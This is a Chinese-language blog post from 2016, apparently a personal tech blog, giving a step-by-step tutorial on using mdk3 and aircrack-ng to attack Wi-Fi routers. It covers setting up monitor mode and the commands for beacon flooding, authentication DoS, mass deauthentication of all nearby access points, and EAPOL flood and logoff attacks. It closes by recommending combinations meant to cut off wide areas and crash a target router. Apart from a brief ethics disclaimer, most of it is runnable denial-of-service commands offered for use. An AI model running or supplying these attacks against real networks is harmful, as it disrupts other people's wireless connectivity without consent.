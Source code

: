 ```yaml
---
layout: post
title:  "使用mdk3+aircrack-ng攻击路由器"
date:   2016-08-28 11:47
categories: jekyll update
tags: [Linux,网络]
issueid: 34
---
```

>mdk3是一款Linux下的终端网络攻击工具，需要配合强大的aircrack -ng使用  

[mdk3-Github](https://github.com/charlesxsh/mdk3-master)  
[mdk3-Github|LEXUGE's fork](https://github.com/LEXUGE/mdk3-master)  
[aircrack -ng](http://www.aircrack-ng.org/index.html)  

现在mdk3的官网已经关闭了，在Github上还有mdk3 v6的原版改进版，为防止项目被删除，我也fork了一份，供大家备用下载。  
mdk3的攻击过程中是不需要网络连接的，也就是在无网络的状态下攻击，希望大家不要恶意攻击他人，保持好自己的黑客道德。  
教程在Fedora Linux下通过测试  



1. ```iwconfig```  
使用该命令来检查是哪一个接口来支持无线连接的，如我的就是wlp2s0  

2. ```iw dev wlp2s0 scan```  
用这个命令来扫描周围的Wi-Fi信息，SSID为路由器的名称，BSS为路由器的MAC地址**（注意，截至目前，我们不需要安装任何软件）**  

3. ```dnf install aircrack-ng.x86_64```  
现在我们来安装mdk3和aircrack-ng(aircrack-ng可能名称会发生变动，具体请使用```$ dnf search aircrack-ng```搜索软件包)  

4. 进入目录并编译:  
```
cd /mdk3-master
make
sudo make install
```
下载完mdk3并解压完毕后，即可进行编译安装，在```make```时会有gcc的编译警告，忽略即可，不必担心  

5. 验证安装:
```
cd /usr/local/sbin
./mdk3
```
<br>

- 如果正确安装就可以看到mdk3输出的帮助  
- 安装过程到此就完毕了  

现在，我们来介绍如何攻击  ```
su
airmon-ng start {你的接口，在第一步中可以找到}
cd /usr/local/sbin
```
第二条命令时，系统会自动关闭冲突进程，在最后会有监听端口，**注意，接下来的mon0就使用监听端口代替**  

第一种模式：  
beacon flood mode：  
     这个模式可以产生大量死亡SSID来充斥无线客户端的无线列表，从而扰乱无线使用者；我们甚至还可以自定义发送死亡SSID的BSSID和ESSID、加密方式（如wep/wpa2）等。  
详细命令如下：  ```
./mdk3 mon0 b

      -n <ssid>        #自定义ESSID
      -f <filename>            #读取ESSID列表文件
      -v <filename>           #自定义ESSID和BSSID对应列表文件
      -d         #自定义为Ad-Hoc模式
      -w         #自定义为wep模式
      -g           #54Mbit模式
      -t            # WPA TKIP encryption
      -a           #WPA AES encryption
      -m          #读取数据库的mac地址
       -c <chan>                   #自定义信道
       -s <pps>                #发包速率
```

第二种模式：  
Authentication DoS：  
这是一种验证请求攻击模式：在这个模式里，软件自动模拟随机产生的mac向目标AP发起大量验证请求，可以导致AP忙于处理过多的请求而停止对正常连接客户端的响应；这个模式常见的使用是在reaver穷据路由PIN码，当遇到AP被“pin死”时，可以用这个模式来直接让AP停止正常响应，迫使AP主人重启路由！  ```
./mdk3 mon0 a
      -a <ap_mac>              #测试指定BSS
      -m              #使用有效数据库中的客户端mac地址
      -c          #对应 -a ，不检查是否测试成功
      -i  <ap_mac>           #对指定BSS进行智能攻击
      -s <pps>               #速率，默认50
```

第三种模式：  
Deauthentication/Disassociation Amok：  
强制解除验证解除连接！在这个模式下，软件会向周围所有可见AP发起循环攻击......可以造成一定范围内的无线网络瘫痪（当然有白名单，黑名单模式），直到手动停止攻击！  ```
mdk3 mon0 d
      -w <filename>             #白名单mac地址列表文件
      -b <filename>              #黑名单mac地址列表文件
      -s <pps>                        #速率，这个模式下默认无限制
      -c [chan,chan,chan,...]                  #信道，可以多填，如 2,4,5,1
```

第四种模式：  
802.1X test:  ```
mdk3 mon0 x  
      0 - EAPOL Start packet flooding   #EAPOL格式的报文洪水攻击

            -n <ssid>               
            -t <bssid>        #目标客户端的mac地址               

            -w <WPA type>
               Set WPA type (1: WPA, 2: WPA2/RSN; default: WPA)
            -u <unicast cipher>
               Set unicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
            -m <multicast cipher>
               Set multicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
            -s <pps>      #速率，默认400               
      1 - EAPOL Logoff test       #注销认证攻击
            -t <bssid>        #目标客户端的mac地址             
            -c <bssid>         #目标ap的合法客户端mac               
            -s <pps>         #速率，默认400               
```

最后，建议这样攻击：  
第一种和第三种同时使用会造成大面积间歇性断网，第二种可以配合第四种进行攻击，会导致路由器死亡  
分别是  
```
./mdk3 mon0 b
./mdk3 mon0 d -s 120
./mdk3 mon0 a -a {你要攻击的路由器MAC(BSS)}
./mdk3 mon0 x 1 -c {客户端MAC(虚拟)} -t {路由器MAC(BSS)}
```

祝你成功！
